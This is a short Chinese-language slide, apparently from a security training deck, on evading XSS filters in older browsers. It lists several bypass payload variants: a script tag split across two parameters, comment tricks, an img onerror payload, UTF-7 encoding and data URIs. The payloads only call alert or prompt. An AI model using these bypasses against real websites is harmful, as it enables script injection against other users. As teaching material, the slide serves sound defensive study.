

# 绕过XSS防御
绕过XSS防御
XSS filter
IE8+，Chrome4+，Safari5+，FF(noscript)
各种代码变型
双参数：p1=<script>prompt(1);/*&p2=*/</script>
注释： <script>/*///*/alert(1);</script>
自动闭合： <img src="noexist" onerror=alert();//
UTF-7： +ADw-script+AD4
data URIs： data:[mediatype][;base64],data
更多：ha.ckers.org/xss.html，html5sec.org